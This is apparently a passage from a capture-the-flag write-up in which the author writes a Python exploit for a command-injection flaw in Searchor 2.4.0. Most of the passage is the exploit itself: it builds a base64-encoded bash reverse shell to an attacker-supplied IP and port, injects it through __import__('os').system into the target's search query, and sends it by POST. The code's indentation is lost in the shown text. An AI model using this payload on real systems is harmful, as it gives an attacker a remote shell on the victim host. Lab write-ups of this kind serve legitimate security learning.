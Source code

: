You can see a couple of PoC exploits already written for us (example: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

However, I want to work on my exploit writing, so I am going to go ahead and see if I can get my own code to work.

My python is a bit rusty, so if you see bad coding practices, no you didn't.
### Weaponization

from: https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py

``` python
import sys
import os
import base64
import requests

# argument input code adapted from: https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py

#reverse shell code based on https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

# bash command that will be used as the payload

def rev_shell(my_ip, my_port, target):

rev_shell_cmd = "bash -c \'bash -i >& /dev/tcp/" + my_ip + "/" + my_port + " 0>&1\'"
rev_shell_cmd_encode = rev_shell_cmd.encode()
rev_shell_cmd_b64 = base64.b64encode(rev_shell_cmd_encode).decode()
python_encap = "\',__import__(\'os\').system(\'echo " + rev_shell_cmd_b64 + " |base64 -d|bash -i\'))"
python_encap_formatted = python_encap.replace(" ","+")
post_target = target + "/searchengine=Google&query=" + python_encap_formatted

print (post_target)

post_req = requests.post(post_target)

# accepts main arguments

def main():

listening_IP = None
listening_PORT = None
target_URL = None

# checks number of arguments to prevent typos and incorrect args

if len(sys.argv) != 4:
print("Error. Needs listening IP, PORT and target URL.")
return(-1)
# sets vars based on arguments

listening_IP = sys.argv[1]
listening_PORT = sys.argv[2]
target_URL = sys.argv[3]

print("Running exploit on " + str(target_URL))

rev_shell(listening_IP, listening_PORT, target_URL)

if __name__ == "__main__":
main()
```